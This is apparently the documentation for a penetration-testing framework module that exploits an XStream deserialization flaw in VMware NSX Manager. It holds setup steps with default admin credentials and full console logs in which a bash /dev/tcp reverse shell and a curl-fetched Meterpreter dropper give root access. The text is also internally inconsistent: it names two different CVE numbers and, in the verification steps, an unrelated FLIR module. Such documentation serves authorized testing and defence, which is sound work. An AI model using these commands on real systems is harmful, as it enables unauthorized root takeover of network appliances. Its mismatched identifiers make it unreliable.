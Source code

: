 ## Vulnerable Application

VMware Cloud Foundation contains a remote code execution vulnerability via XStream open source library [CVE-2022-39144](https://nvd.nist.gov/vuln/detail/CVE-2021-39144).
VMware has evaluated the severity of this issue to be in the [Critical severity range](https://www.vmware.com/support/policies/security_response.html) with a maximum CVSSv3 base score of [9.8](https://www.first.org/cvss/calculator/3.1#CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H).
Due to an unauthenticated endpoint that leverages XStream for input serialization in VMware Cloud Foundation (NSX-V),
a malicious actor can get remote code execution in the context of `root` on the appliance.

VMware Cloud Foundation `3.x` and more specific NSX Manager Data Center for vSphere up to and including version `6.4.13`
are vulnerable to Remote Command Injection.

This module has been tested against VMware NSX Manager (NSX-V) with the specifications listed below:

* VMware NSX Manager
* Version `6.4.13`
* Version `6.4.4`

## Verification Steps

Follow these instructions to install a vulnerable VMware NSX Manager on VirtualBox.
* Go to  [VMware NSX for vSphere 6.4.13](https://customerconnect.vmware.com/en/downloads/details?downloadGroup=NSXV_6413&productId=417&rPId=96480)
* Note: You need to be a customer with valid VMware subscriptions
* Download the ova file `VMware-NSX-Manager-6.4.13-19307994.ova`
* Open VirtualBox and import the ova file
* After sucessfull import, start the VM and you have a VMware NSX Manager running which is accessible using url ` https://<nsx-manager-ip>`
* Credentials to login: User: `admin`, password: `default`
* Use the module and options below to test the vulnerability...

1. `use exploit/linux/http/flir_ax8_unauth_rce_cve_2022_37061`
1. `set RHOSTS <TARGET HOSTS>`
1. `set RPORT <port>`
1. `set LHOST <attacker host ip>`
1. `set LPORT <attacker host port>`
1. `set TARGET <0-Unix command or 1-Linux Dropper>`
1. `exploit`
1. You should get a `bash` shell or `meterpreter` session depending on the target and payload settings.

## Options
No specific options.

## Scenarios

### VMware NSX Manager bash reverse shell

```
msf6 > use exploit/linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144
[*] Using configured payload cmd/unix/reverse_bash
msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > options

Module options (exploit/linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    443              yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machi
                                       ne or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (cmd/unix/reverse_bash):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Unix (In-Memory)


msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > set rhosts 192.168.100.5
rhosts => 192.168.100.5
msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.5:443 can be exploited !
[+] The target appears to be vulnerable. Target is running VMware NSX Manager (NSX-V)
[*] Executing Unix (In-Memory) with bash -c '0<&44-;exec 44<>/dev/tcp/192.168.100.7/4444;sh <&44 >&44 2>&44'
[*] Command shell session 14 opened (192.168.100.7:4444 -> 192.168.100.5:42512) at 2022-11-05 10:33:37 +0000

pwd
/usr/lib/tanuki/bin
whoami
root
exit
[*] 192.168.100.5 - Command shell session 14 closed.

```

### VMware NSX Manager meterpreter session

```
msf6 > use exploit/linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144
[*] Using configured payload linux/x64/meterpreter/reverse_tcp
msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > options

Module options (exploit/linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                    yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT    443              yes       The target port (TCP)
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. This must be an address on the local machi
                                       ne or 0.0.0.0 to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.
   SSL      true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                   no        Path to a custom SSL certificate (default is randomly generated)
   URIPATH                   no        The URI to use for this exploit (default is random)
   VHOST                     no        HTTP server virtual host


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   1   Linux Dropper


msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > set rhosts 192.168.100.5
rhosts => 192.168.100.5
msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > set lhost 192.168.100.7
lhost => 192.168.100.7
msf6 exploit(linux/http/vmware_nsxmgr_xstream_rce_cve_2021_39144) > exploit

[*] Started reverse TCP handler on 192.168.100.7:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.100.5:443 can be exploited !
[+] The target appears to be vulnerable. Target is running VMware NSX Manager (NSX-V)
[*] Executing Linux Dropper
[*] Using URL: http://192.168.100.7:8080/G5xrKmpiufcQdCt
[*] Client 192.168.100.5 (curl/7.81.0) requested /G5xrKmpiufcQdCt
[*] Sending payload to 192.168.100.5 (curl/7.81.0)
[*] Command Stager progress - 100.00% done (121/121 bytes)
[*] Sending stage (3045348 bytes) to 192.168.100.5
[*] Meterpreter session 13 opened (192.168.100.7:4444 -> 192.168.100.5:42384) at 2022-11-05 10:29:30 +0000
[*] Server stopped.

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : 192.168.100.5
OS           : NSX Manager 6.4.13 (Linux 4.9.297)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```

## Limitations
The vulnerability check is limited in detecting that VMWare NSX Manager (NSX-V) is running without obtaining the version information.
However all VMware NSX Manager versions up to `6.4.13` are vulnerable, except for `6.4.14`, so most detected targets are likely
to be vulnerable.
